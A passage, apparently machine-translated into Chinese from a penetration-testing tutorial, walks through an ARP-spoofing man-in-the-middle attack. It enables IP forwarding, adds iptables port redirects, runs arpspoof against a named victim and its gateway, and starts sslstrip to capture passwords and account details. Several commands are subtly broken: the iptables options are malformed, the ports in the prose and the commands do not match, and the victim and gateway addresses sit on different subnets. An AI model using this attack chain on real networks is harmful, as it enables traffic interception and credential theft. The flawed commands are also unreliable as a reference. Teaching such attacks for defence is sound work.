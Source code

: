 第一步是启用 IP 转发；这将启用流量转发，以便通过攻击者的系统重定向流量。为了实施这次攻击，我们执行以下命令：

```
#echo "1″ > /proc/sys/net/ipv4/ip_forward 
```

查看 IP 转发设置的值；这将返回一个值`1`。如果没有，请重复前面的步骤：

```
#cat /proc/sys/net/ipv4/ip_forward 
```

输出将为：`1`

```
#sysctl -p 
```

注意这里的`1`值表示我们正在启用 IP 转发。如果我们想关闭这个功能，我们可以用一个`0`来运行相同的命令。

下一步是在流量通过我们的系统时重定向流量，通过使用`iptables`命令很容易做到这一点。

在此设置中，在端口`80`上接收的流量将重定向到不同的端口号。在这种情况下，端口`80`被重定向到端口`8080`，端口`443`被重定向到端口`8883.`，有了这组简单的规则，流量将被相应地重定向。

为了实现我们的设置，我们只需在命令行中输入以下内容：

```
#iptables -t nat -A PREROUTING -p tcp -destination-port 80 -j REDIRECT -to-port 8880 
#iptables -t nat -A PREROUTING -p tcp -destination-port 443 -j REDIRECT -to-port 8883 
```

iptables 是一个命令行实用程序，在 Linux 中已经存在很长时间，用于在 Linux 内核中配置防火墙设置。该实用程序远比这里介绍的复杂，但我们只需要使用基本的设置。

现在是重要的部分，这是执行实际的 ARP 欺骗。为此，我们将使用`arpspoof`命令更改受害系统的缓存，使其具有不同的值。在本例中，我们将把默认网关更改为其他网关。我们可以使用以下命令执行此操作：

```
arpspoof -i interface -t target-ip target-gateway-ip 
```

更具体地说，我们将更改受害计算机以包括网关的不同地址：

```
arpspoof -i eth0 -t 192.168.1.23 192.168.0.253 
```

我们也可以对网关执行相同的操作，如下所示：

```
arpspoof -i eth0 -t 192.168.0.253 192.168.1.23 
```

一旦这些步骤完成，我们将进入一个阶段，在该阶段中，我们可以在请求在网络中移动时拦截请求。在这种情况下，我们在卡利有一些以`sslstrip`/`drifnet`形式收集信息的选择。让我们简单地看一下每一个设置。

`sslstrip`是一个嗅探和中间人实用程序，旨在捕获通过 SSL 协议移动的信息。使用此命令可能会截获用户名、密码、电子邮件帐户和数据库用户详细信息等信息。

以下命令将允许攻击者嗅探目标 PC`192.168.1.23`的流量，并指定`iptable nat`规则中定义的端口：

```
python /usr/share/sslstrip/sslstrip.py -p -s -l 8880 
```
